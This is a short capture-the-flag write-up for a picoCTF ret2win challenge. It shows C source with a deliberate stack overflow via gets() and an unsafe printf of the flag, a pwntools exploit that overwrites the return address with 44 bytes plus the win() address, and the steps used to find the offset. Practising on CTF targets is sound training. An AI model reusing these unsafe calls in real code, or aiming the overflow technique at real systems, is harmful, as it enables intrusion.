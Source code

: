 # Ret2Win example

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
## Exploit
```python
from pwn import *

host = 'saturn.picoctf.net'
port = 56983

p = remote(host, port)

win_addr = p32(0x080491f6)

payload = b'A' * 44 + win_addr

p.sendline(payload)
response = p.recvall(timeout=5)
print(f"{response.decode('utf-8')}")
```

## Steps

* Analyze the code and obtain [vulnerable functions](bof_vuln_functions.md)
* [Fuzzing](fuzzing.md)
* Generate [deBruijin sequence](deBruijin.md) to inject into the vulnerable section of the binary and check the [offset](offset.md)
* Obtain the pattern offset(44)
* Obtain *win()* function(0x080491f6)
* Exploiting!
